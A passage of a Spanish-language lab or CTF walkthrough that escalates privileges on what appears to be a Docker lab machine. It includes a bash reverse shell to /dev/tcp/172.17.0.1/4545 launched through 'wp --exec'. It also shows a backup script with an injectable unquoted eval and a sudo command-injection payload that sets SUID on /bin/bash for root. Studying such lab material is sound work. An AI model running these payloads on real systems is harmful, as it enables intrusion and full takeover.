

Construimos un comando para obtener una Shell como el usuario `wpuser`
```bash
sudo -u wpuser /usr/local/bin/wp --exec="system('bash -c \"bash -i >& /dev/tcp/172.17.0.1/4545 0>&1\"');"
```

Ponemos el puerto 4545 en escucha


Ejecutamos el comando 


Y obtenemos una Shell remota como el usuario `wpuser`


Listamos los permisos sudo


Haciendo un `ls -la `vemos que no tiene permisos de editar.
Pero podemos leerlo.
`wpuser@92ea9e1ae4c3:/tmp$ cat /opt/scripts/backup.sh`

```bash
#!/bin/bash 
# Author: Álvaro Bernal (aka. trr0r) 
# backup.sh: Realiza una copia de un log en una ubicación determinada (/backup)
# COLORES 
greenColour="\e[0;32m\033[1m" 
endColour="\033[0m\e[0m" 
redColour="\e[0;31m\033[1m" 
blueColour="\e[0;34m\033[1m" 
yellowColour="\e[0;33m\033[1m" 
purpleColour="\e[0;35m\033[1m"
turquoiseColour="\e[0;36m\033[1m" 
grayColour="\e[0;37m\033[1m" 
orangeColour="\e[38;5;214m\033[1m" 
darkRedColour="\e[38;5;124m\033[1m" 
if [ $# -eq 0 ]; then 
    echo -e "\n${redColour}[!] Error, debes de proporcionar un argumento.${endColour}\n\n\t${blueColour}Example:${endColour} ${greenColour}/opt/scripts/backup.sh access${endColour}\n"
     exit 
fi 
# Variables GLOBALES 
LOG_DIR="/var/log/apache2" 
BACKUP_DIR="/backup"
LOG_NAME=$1 
FULL_NAME="$LOG_DIR/$LOG_NAME.log" 
/usr/bin/echo "Realizando copia de $FULL_NAME en $BACKUP_DIR" 
COMMAND="/usr/bin/cp $FULL_NAME $BACKUP_DIR" 
eval $COMMAND
```

Al leer el script vemos que: los argumentos que le pasemos al script se ven reflejados directamente en los argumentos del comando que se va a ejecutar posteriormente

Entonces:
```bash
sudo /opt/scripts/backup.sh; whoami
```


Entonces podemos llegar a inyectar comandos en la ejecución de la siguiente manera, haciendo que el binario /bin/bash tenga permisos SUID:
```bash
sudo /opt/scripts/backup.sh "access;chmod u+s /bin/bash;"
```

Ejecutamos el comando:
```bash
/bin/bash -p
```

Y logramos obtener una Shell con permisos de **root**
```
bash-5.2# whoami 
root
```
Escalada exitosa a root.